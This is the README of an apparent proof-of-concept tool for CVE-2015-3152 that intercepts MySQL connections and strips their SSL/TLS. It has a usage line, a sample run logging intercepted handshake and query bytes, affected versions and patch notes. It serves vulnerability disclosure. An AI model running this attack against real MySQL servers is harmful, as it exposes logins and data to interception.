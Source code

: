 # mysslstrip

mysslstrip is a Python-based proof of concept showing how to MITM
MySQL traffic and strip SSL/TLS, as per [CVE-2015-3152](http://www.openwall.com/lists/oss-security/2015/04/29/4).

## Usage

`mysslstrip.py [-h] [-p LISTEN_PORT] [-i LISTEN_INTERFACE] dest`

## Example Output

```
[root@duo1 ~]# python2.7 mysslstrip.py -p 3307 127.0.0.1:3306
2015-04-29 21:33:14+0000 [-] Log opened.
2015-04-29 21:33:14+0000 [-] listen: 127.0.0.1:3307; connect: 127.0.0.1:3306
2015-04-29 21:33:14+0000 [-] MySQLForwardServerFactory starting on 3307
2015-04-29 21:33:14+0000 [-] Starting factory <__main__.MySQLForwardServerFactory instance at 0x7f7769912fc8>
2015-04-29 21:33:21+0000 [__main__.MySQLForwardServerFactory] Starting factory <twisted.internet.endpoints.OneShotFactory instance at 0x7f776787c248>
2015-04-29 21:33:21+0000 [MySQLForwardClientProtocol,client] <class '__main__.MySQLForwardClientProtocol'> received: 'J\x00\x00\x00\n5.6.21\x00\x04\x00\x00\x00"l{I8{%D\x00\xff\xff\x08\x02\x00\x7f\xc0\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00fSPsur[Rg/S6\x00mysql_native_password\x00'
2015-04-29 21:33:21+0000 [MySQLForwardServerProtocol,0,127.0.0.1] <class '__main__.MySQLForwardServerProtocol'> received: '\xb6\x00\x00\x01\x85\xa6\x7f@\x00\x00\x00\x01!\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00root\x00\x14U\xe7\x0b\x0cs\xb5\xf3\x00\x07&=\xa8\xa6\xf9I\xf0\x86}G\xffmysql_native_password\x00e\x03_os\x05Linux\x0c_client_name\x08libmysql\x04_pid\x042361\x0f_client_version\x065.6.21\t_platform\x06x86_64\x0cprogram_name\x05mysql'
2015-04-29 21:33:21+0000 [MySQLForwardClientProtocol,client] <class '__main__.MySQLForwardClientProtocol'> received: '\x07\x00\x00\x03\x00\x00\x00\x02\x00\x00\x00'
2015-04-29 21:33:21+0000 [MySQLForwardServerProtocol,0,127.0.0.1] <class '__main__.MySQLForwardServerProtocol'> received: '!\x00\x00\x00\x03select @@version_comment limit 1'
2015-04-29 21:33:21+0000 [MySQLForwardClientProtocol,client] <class '__main__.MySQLForwardClientProtocol'> received: "\x01\x00\x00\x01\x01'\x00\x00\x02\x03def\x00\x00\x00\x11@@version_comment\x00\x0c!\x00x\x00\x00\x00\xfd\x00\x00\x1f\x00\x00\x05\x00\x00\x03\xfe\x00\x00\x02\x00)\x00\x00\x04(Distributed by The IUS Community Project\x05\x00\x00\x05\xfe\x00\x00\x02\x00"
2015-04-29 21:33:27+0000 [MySQLForwardServerProtocol,0,127.0.0.1] <class '__main__.MySQLForwardServerProtocol'> received: '\x16\x00\x00\x00\x03SELECT "HELLO, WORLD"'
2015-04-29 21:33:27+0000 [MySQLForwardClientProtocol,client] <class '__main__.MySQLForwardClientProtocol'> received: '\x01\x00\x00\x01\x01"\x00\x00\x02\x03def\x00\x00\x00\x0cHELLO, WORLD\x00\x0c!\x00$\x00\x00\x00\xfd\x01\x00\x1f\x00\x00\x05\x00\x00\x03\xfe\x00\x00\x02\x00\r\x00\x00\x04\x0cHELLO, WORLD\x05\x00\x00\x05\xfe\x00\x00\x02\x00'
2015-04-29 21:33:33+0000 [MySQLForwardServerProtocol,0,127.0.0.1] <class '__main__.MySQLForwardServerProtocol'> received: '\x01\x00\x00\x00\x01'
```

## Additional Information


**Is this a real vulnerability?**

Yes! Encrypt all the things. Allowing opportunistic degradation of encryption is pretty poor practice.

The vulnerability affects MySQL 5.7.2 and earlier versions, along with MySQL Connector versions 6.1.2 and earlier, all versions of Percona Server and all versions of MariaDB.

**Patch?**

It's been fixed in [MySQL 5.7.3](http://dev.mysql.com/doc/relnotes/mysql/5.7/en/news-5-7-3.html) ... but the security
patch hasn't been backported to any other version, so if you're on 5.6 like [99.99%](https://scans.io/data/umich/dadrian/backronym/banners.mysql.20150429.json) of the Internet is, you're out of
luck unless you switch to the 5.7 "preview release".

Created by [Adam Goodman](https://twitter.com/akgood) of [Duo Labs](https://labs.duosecurity.com).

**Inquiries?**

PR Inquiries: [this.is.a.really.big.deal@duosecurity.com](mailto:this.is.a.really.big.deal@duosecurity.com)  
Technical Inquiries: [this.isnt.a.big.deal.but.you.should.still.patch@duosecurity.com](mailto:this.isnt.a.big.deal.but.you.should.still.patch@duosecurity.com)  
Twitters: [@duo\_labs](https://twitter.com/duo_labs)

### References

[https://www.duosecurity.com/blog/backronym-mysql-vulnerability](https://www.duosecurity.com/blog/backronym-mysql-vulnerability)  
[http://www.openwall.com/lists/oss-security/2015/04/29/4](http://www.openwall.com/lists/oss-security/2015/04/29/4)  
[http://www.ocert.org/advisories/ocert-2015-003.html](http://www.ocert.org/advisories/ocert-2015-003.html)  
[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-3152](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-3152)
